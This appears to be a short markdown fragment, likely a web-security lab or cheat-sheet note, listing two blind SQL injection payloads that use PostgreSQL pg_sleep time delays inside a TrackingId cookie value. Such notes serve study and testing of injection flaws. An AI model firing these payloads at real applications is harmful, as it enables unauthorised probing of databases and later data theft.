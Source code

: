 
### Blind SQL injection with time delays
```
TrackingId=x'+AND+1%3d(SELECT+1+FROM+PG_SLEEP(10))--
TrackingId=x'||pg_sleep(10)--
```
